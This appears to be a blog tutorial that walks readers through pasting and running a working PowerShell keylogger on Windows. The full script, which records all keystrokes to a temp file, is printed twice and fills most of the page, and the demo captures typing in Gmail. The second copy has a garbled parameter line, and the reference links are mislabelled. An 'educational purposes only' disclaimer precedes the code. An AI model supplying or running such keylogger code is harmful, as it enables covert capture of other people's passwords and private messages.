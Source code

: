 ```yaml
---
title: "Windows Key Logger"
date: "2021-12-12"

---
```




## Warning

> **Warning: Educational Purposes Only**
> **This keylogger application is provided strictly for educational purposes. It is intended to be used as a learning tool to understand the behavior of keyloggers and enhance your knowledge of computer security.**

> **DO NOT Use it for Hacking**
> **Under no circumstances should this keylogger application be used for hacking, gaining unauthorized access to someone's computer, or engaging in any illegal activities.**

> **Use at Your Own Risk**
> **By choosing to use this keylogger application, you acknowledge and accept all associated risks. The developer and any contributors to this application are not responsible for any damages, losses, or legal consequences resulting from the use or misuse of this software.**



## Procedure

**Step1**

Spread out the Start menu. Type in Windows PowerShell in the search bar. From the search results, open the applications Windows PowerShell and Windows PowerShell ISE as shown in the screenshot.

![image-20231119105736290](image-20231119105736290.png)



**STEP 2**

Click on Windows PowerShell icon in the task bar. This will result in the popping up of Windows PowerShell command prompt.

![image-20231119105754221](image-20231119105754221.png)



**STEP 3**

Copy the code given below and paste it onto the Windows PowerShell command prompt. To copy or paste, you just need to select the code and right click, in the PowerShell command prompt. #requires -Version 2

	function Start-KeyLogger($Path="$env:temp\keylogger.txt")
	{
	# Signatures for API Calls
	$signatures = @'
	[DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)]
	public static extern short GetAsyncKeyState(int virtualKeyCode);
	[DllImport("user32.dll", CharSet=CharSet.Auto)]
	public static extern int GetKeyboardState(byte[] keystate);
	[DllImport("user32.dll", CharSet=CharSet.Auto)]
	public static extern int MapVirtualKey(uint uCode, int uMapType);
	[DllImport("user32.dll", CharSet=CharSet.Auto)]
	public static extern int ToUnicode(uint wVirtKey, uint wScanCode, byte[] lpkeystate, System.Text.StringBuilder pwszBuff,
	int cchBuff, uint wFlags);
	'@

	# load signatures and make members available
	$API = Add-Type -MemberDefinition $signatures -Name 'Win32' -Namespace API -PassThru

	# create output file
	$null = New-Item -Path $Path -ItemType File -Force

	try
	{
	Write-Host 'Recording key presses. Press CTRL+C to see results.' -ForegroundColor Red

	# create endless loop. When user presses CTRL+C, finally-block
	# executes and shows the collected key presses
	while ($true) {
	Start-Sleep -Milliseconds 40

	# scan all ASCII codes above 8
	for ($ascii = 9; $ascii -le 254; $ascii++) {
	# get current key state
	$state = $API::GetAsyncKeyState($ascii)

	# is key pressed?
	if ($state -eq -32767) {
	$null = [console]::CapsLock

	# translate scan code to real code
	$virtualKey = $API::MapVirtualKey($ascii, 3)

	# get keyboard state for virtual keys
	$kbstate = New-Object Byte[] 256
	$checkkbstate = $API::GetKeyboardState($kbstate)

	# prepare a StringBuilder to receive input key
	$mychar = New-Object -TypeName System.Text.StringBuilder

	# translate virtual key
	$success = $API::ToUnicode($ascii, $virtualKey, $kbstate, $mychar, $mychar.Capacity, 0)

	if ($success)
	{
	# add key to logger file
	[System.IO.File]::AppendAllText($Path, $mychar, [System.Text.Encoding]::Unicode)
	}
	}
	}
	}
	}
	finally
	{
	# open logger file in Notepad
	notepad $Path
	}
	}

	# records all key presses until script is aborted by pressing CTRL+C
	# will then open the file with collected key codes
	Start-KeyLogger
or
	  #requires -Version 2
		function Start-KeyLogger(Path="Path="env:temp\keylogger.txt")
		{
		  # Signatures for API Calls
		  $signatures = @'
		[DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)]
		public static extern short GetAsyncKeyState(int virtualKeyCode);
		[DllImport("user32.dll", CharSet=CharSet.Auto)]
		public static extern int GetKeyboardState(byte[] keystate);
		[DllImport("user32.dll", CharSet=CharSet.Auto)]
		public static extern int MapVirtualKey(uint uCode, int uMapType);
		[DllImport("user32.dll", CharSet=CharSet.Auto)]
		public static extern int ToUnicode(uint wVirtKey, uint wScanCode, byte[] lpkeystate, System.Text.StringBuilder pwszBuff, int cchBuff, uint wFlags);
		'@

	  # load signatures and make members available
	  $API = Add-Type -MemberDefinition $signatures -Name 'Win32' -Namespace API -PassThru

	  # create output file
	  $null = New-Item -Path $Path -ItemType File -Force

	  try
	  {
		Write-Host 'Recording key presses. Press CTRL+C to see results.' -ForegroundColor Red

		# create endless loop. When user presses CTRL+C, finally-block
		# executes and shows the collected key presses
		while ($true) {
		  Start-Sleep -Milliseconds 40

		  # scan all ASCII codes above 8
		  for ($ascii = 9; $ascii -le 254; $ascii++) {
	    	# get current key state
	    	$state = $API::GetAsyncKeyState($ascii)

	    	# is key pressed?
	    	if ($state -eq -32767) {
	    	  $null = [console]::CapsLock

	    	  # translate scan code to real code
	    	  $virtualKey = $API::MapVirtualKey($ascii, 3)

	    	  # get keyboard state for virtual keys
	    	  $kbstate = New-Object Byte[] 256
	    	  $checkkbstate = $API::GetKeyboardState($kbstate)

	    	  # prepare a StringBuilder to receive input key
	    	  $mychar = New-Object -TypeName System.Text.StringBuilder

	    	  # translate virtual key
	    	  $success = $API::ToUnicode($ascii, $virtualKey, $kbstate, $mychar, $mychar.Capacity, 0)

	    	  if ($success)
	    	  {
	        	# add key to logger file
	        	[System.IO.File]::AppendAllText($Path, $mychar, [System.Text.Encoding]::Unicode)
	    	  }
	    	}
		  }
		}
	  }
	  finally
	  {
		# open logger file in Notepad
		notepad $Path
	  }
	}

	# records all key presses until script is aborted by pressing CTRL+C
	# will then open the file with collected key codes
	Start-KeyLogger



**STEP 4**

Now the Windows PowerShell will look like the following screenshot.



**STEP 5**

Now open some application and press some keys. I have opened G-Mail as an example.



**STEP 6**

Once you are done with pressing keys, look at the bottom of the code in the Windows PowerShell command prompt. There you will see an instruction Recording key presses. Press CTRL+C to see results. Press CTRL+C as per the instruction to see the logged keystrokes.



**STEP 7**

Pressing CTRL+C will result in the opening of a notepad file, which has the recorded keystrokes.

![image-20231119110007861](image-20231119110007861.png)



**STEP 8**

Alternatively, you can open the Windows PowerShell ISE as shown in the first step and copy the code. As next, click on the Play icon to run the script. This will also give the same result.



That’s it. Creating your own keylogger is not a walk through the ocean anymore. Hope the article was found useful.



## Reference

[ - How to stop windows 10 key logger program ](# "https://thegeekpage.com/create-simple-keylogger-windows/")
[- How to create a simple key logger yourself in windows](https://thegeekpage.com/how-to-disable-windows-10-keylogger-program/)
